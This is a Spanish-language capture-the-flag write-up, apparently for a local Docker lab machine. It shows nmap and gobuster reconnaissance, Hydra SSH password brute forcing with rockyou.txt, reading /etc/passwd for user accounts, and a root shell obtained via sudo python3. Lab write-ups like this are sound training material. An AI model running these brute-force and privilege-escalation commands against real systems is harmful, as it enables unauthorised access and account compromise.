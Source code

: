 
Desplegamos el contenedor:

```Bash
bash auto_deploy.sh pequenas-mentirosas.tar
```

![[Pasted image 20250216110523.png]]

Escaneamos la IP:

```Bash
nmap -sV -sC -sS -T 5 -n -Pn -p- 172.17.0.2
```

![[Pasted image 20250216110549.png]]

Hacemos **Fuzzing**:

```Bash
gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x html,php,py,sh,txt
```

Nos metemos en la web:

![[Pasted image 20250216110636.png]]

Fuerza Bruta con **Hydra**:

```Bash
hydra -l a -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2
```

![[Pasted image 20250216111930.png]]

Nos conectamos con **SSH**:

```Bash
ssh a@172.17.0.2
```

![[Pasted image 20250216112221.png]]

Elevamos privilegios:

```Bash
sudo -l
```

![[Pasted image 20250216112840.png]]

```Bash
find / -perm -4000 2>/dev/null
```

![[Pasted image 20250216112941.png]]

No podemos.

Buscamos otros usuarios:

```Bash
cat /etc/passwd | grep sh$
```

![[Pasted image 20250216112706.png]]

Fuerza Bruta con **Hydra**:

```Bash
hydra -l spencer -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2
```

![[Pasted image 20250216112605.png]]

Nos conectamos con **SSH**:

```Bash
ssh spencer@172.17.0.2
```

![[Pasted image 20250216113131.png]]

Elevamos privilegios:

```Bash
sudo -l
```

![[Pasted image 20250216113212.png]]

```Bash
sudo python3 -c 'import os; os.system("/bin/bash")'
```

![[Pasted image 20250216113817.png]]

```Bash
whoami
```

![[Pasted image 20250216113843.png]]

